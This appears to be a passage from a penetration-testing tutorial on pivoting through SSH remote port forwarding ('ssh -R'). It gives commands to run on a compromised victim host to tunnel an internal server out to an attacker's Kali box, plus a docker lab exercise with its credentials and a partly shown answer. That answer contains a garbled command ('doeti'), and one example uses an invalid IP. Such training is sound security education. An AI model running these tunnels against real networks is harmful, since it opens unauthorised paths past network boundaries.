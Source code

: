 ## SSH

To leverage SSH for remote port forwarding, open one console window at your victim machine. Ssh with this session into your attacker box and *send* a specific server to directly your system: <br>

<pre><code class="bash">ssh -R 8888:&lt;ip+port_you_want_to_send_from_your_network&gt; user@&lt;ip_ssh_of_your_attacker_box&gt;
</code></pre>

After that you can then access the IP `127.0.0.1:8888` on our kali system to get the connection into the internal network at &lt;ip+port_you_want_to_send_from_your_network&gt;.

<pre><code class="bash">ssh -R 8888:&lt;192.168.100.100:8881&gt; user@&lt;ip_ssh_of_your_attacker_box&gt;
</code></pre>

This example would send the server at `192.168.100.100` Port `8881` from our current network you connected with ssh to your attacker box local interface at Port `8888`.

Note that a port smaller than 1024 will not work if you are not root. So 

<pre><code class="bash">ssh -R 80:&lt;192.168.100.1000:8881&gt; user@&lt;ip_ssh_of_your_attacker_box&gt;
</code></pre>

would close the connection. In addition to SSH, this applies to all subsequent tools with which we perform reverse port forwarding except plink.
So if you are not root at the system where you have the client just use a port >= 1024.

<div markdown="0">
  <blockquote>
  The task now is to send an internal web server from inside the docker infrastructure to your kali box outside.<br>
  <br>
  IP+port of the internal server you want to access: <code>192.168.2.50:80</code><br>
  Docker ID representing the victim you hacked: &lt;id_jumphost&gt;
  User Password: <code>jumphost</code>
  Docker ID representing your kali attacker box: &lt;id_outside&gt;
  SSH password for this: <code>outside</code>
  At this attacker box an ssh server is already installed.
  </blockquote>

  <p>
    <button class="btn btn-outline-primary btn-lg btn-block" type="button" data-bs-toggle="collapse" data-bs-target="#exercise_portforwarding_1" aria-expanded="false" aria-controls="exercise_portforwarding_1">
      See Answer
    </button>
  </p>
  <div class="collapse" id="exercise_portforwarding_1">
  <div class="card card-body">
  <p class="card-text">First enter the session to your victim:
<pre><code class="bash">doeti &lt;id_jumphost&gt; bash
su jumphost
ssh -R 8888:192.168.2.50:80 outside@192.168.1.3
</code></pre>
